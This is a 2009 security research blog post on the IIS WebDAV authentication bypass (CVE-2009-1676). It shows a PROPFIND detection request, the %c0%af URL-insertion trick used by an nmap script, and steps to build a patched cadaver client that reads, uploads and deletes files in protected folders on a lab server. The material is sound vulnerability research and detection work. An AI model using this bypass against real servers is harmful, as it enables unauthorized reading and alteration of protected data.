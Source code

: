 ```yaml
---
id: 285
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T18:10:43-05:00'
author: Andrew
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=285'
permalink: /2009/webdav-detection-vulnerability-checking-and-exploitation
categories:
    - Hacking
    - Tools
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability (<a href="http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676">CVE-2009-1676</a>) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

<!--more-->

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is _not_ protected then it's time to break out the funky cold medina and have some fun.

<h2>Detecting if WebDAV is enabled</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2
 * IIS 5.0/Windows 2000 SP4
	
On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

<pre>
PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 298

&lt;?xml version=&quot;1.0&quot; encoding=&quot;utf-8&quot;?&gt;
&lt;propfind xmlns=&quot;DAV:&quot;&gt;
&lt;prop&gt;
&lt;getcontentlength xmlns=&quot;DAV:&quot;/&gt;
&lt;getlastmodified xmlns=&quot;DAV:&quot;/&gt;
&lt;executable xmlns=&quot;http://apache.org/dav/props/&quot;/&gt;
&lt;resourcetype xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-in xmlns=&quot;DAV:&quot;/&gt;
&lt;checked-out xmlns=&quot;DAV:&quot;/&gt;
&lt;/prop&gt;
&lt;/propfind&gt;
</pre>

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.
	
<h2>Checking if a server is vulnerable</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.
	
<h2>Finding a vulnerable server</h2>

Tested working on
 * IIS 6.0/Windows 2003 Enterprise SP2
 * IIS 5.1/Windows XP Pro SP2

Tested not working on
 * IIS 5.0/Windows 2000 SP4
	
Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

<pre>
> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
</pre>

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

<h2>Exploiting it!</h2>

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called <a href="http://www.webdav.org/cadaver/">cadaver</a>, and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> and after hacking away at it for awhile, we came up with <a href="http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch">a little patch</a> that makes it quite easy to exploit a server. Check <a href="http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch">the patch itself</a> for the gritty details but basically it does the following:

1) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)
2) Append the header "Translate: f" to every request (otherwise get and probably others won't work)
3) Insert the characters "%c0%af" into any uri request longer than 1 character.

So, grab the <a href="http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch">cadaver-0.23.2-h4x.patch</a> and apply it to the <a href="http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz">cadaver-0.23.2 source</a> from the <a href="http://www.webdav.org/cadaver/">cadaver website</a>. Here's the commands:

<pre>
> mkdir cadaver-h4x
> cd cadaver-h4x
> wget http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch
--snip--
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1 < ../cadaver-0.23.2-h4x.patch
patching file lib/neon/ne_basic.c
patching file lib/neon/ne_request.c
patching file lib/neon/ne_uri.c
> ./configure
--snip--
> make
--snip--
</pre>

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

<pre>
> ./cadaver xxx.xxx.xxx.xxx
</pre>

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

<pre>
dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
ron$pr0ns
dav:/secret/>
</pre>

And there you have it!

Here's a list of commands that I've tested that work with the patched cadaver on a vulnerable folder:
 * CD
 * LS
 * MOVE
 * PUT
 * GET
 * CAT
 * DELETE

Oddly enough, the <b>COPY</b> command does <b>NOT</b> work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

If anyone has been able to successfully exploit this on IIS 5.0 (Windows 2000), please contact me, we've been trying and can't get it to work in the lab here.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca